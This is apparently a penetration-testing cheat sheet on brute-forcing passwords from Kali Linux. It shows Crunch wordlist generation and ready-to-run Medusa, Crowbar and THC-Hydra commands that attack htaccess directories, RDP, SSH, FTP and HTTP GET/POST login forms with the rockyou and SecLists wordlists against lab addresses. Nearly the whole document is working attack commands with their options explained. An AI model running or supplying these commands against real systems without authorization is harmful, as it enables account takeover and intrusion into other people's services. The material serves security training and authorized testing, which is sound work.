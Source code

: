 
## Brute Force Wordlists
[Crunch](https://sourceforge.net/projects/crunch-wordlist/) is a powerful wordlist generator included in kali linux.
![image](https://user-images.githubusercontent.com/48137513/198032830-c6e42d1d-ca4e-4578-a30b-0abf83cc9399.png)
To generate a wordlist that matches our requirements, we will specify a minimum and maximum word length of eight characters (8 8) and describe our rule pattern with `-t ,@@^^%%%`:
```sh
kali@kali:~$ crunch 8 8 -t ,@@^^%%%
```
## Common Network Service Attack Methods
### HTTP htaccess Attack with Medusa

1. Decompressing the rockyou wordlist
    ```sh
    kali@kali:~$ sudo gunzip /usr/share/wordlists/rockyou.txt.gz
    ```
2. HTTP htaccess-protected web directory attack using Medusa
    ```sh
    kali@kali:~$ medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin
    ```
### Remote Desktop Protocol Attack with Crowbar
1. Using apt install to install crowbar
    ```sh
    kali@kali:~$ sudo apt install crowbar
    ```
2. RDP password attack using Crowbar
    ```sh
    kali@kali:~$ crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1
    ```
__Note__: We specified a single thread since the remote desktop protocol does not reliably handle multiple threads.
### SSH Attack with THC-Hydra
SSH attack using Hydra
```sh
kali@kali:~$ hydra -l <victim_usr> -P /usr/share/wordlists/rockyou.txt ssh://$IP -t 4
```
**Note**: Use the **`-s`** option to change port if the service runs on a different port than default one.
### FTP Attack with THC-Hydra
```sh
kali@kali:~$ hydra -l <usr> -P /usr/share/wordlists/rockyou.txt ftp://$IP -t 3 -f     
# -f will stop at first match
# -t 3 will keep workers/threads number smaller-equal-than 3
```
### HTTP GET Attack with THC-Hydra
```
kali@kali:~$ hydra -L users.txt -P /usr/share/seclists/Passwords/darkweb2017-top1000.txt -f -s 8080 $IP http-get /manager/html
```
### HTTP POST Attack with THC-Hydra
Get additional information about the http-form-post module
```sh
kali@kali:~$ hydra http-form-post -U
```
Attacking the web form with THC-Hydra
```sh
kali@kali:~$ hydra 10.11.0.22 http-form-post "/form/frontpage.php:user=^USER^&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f
```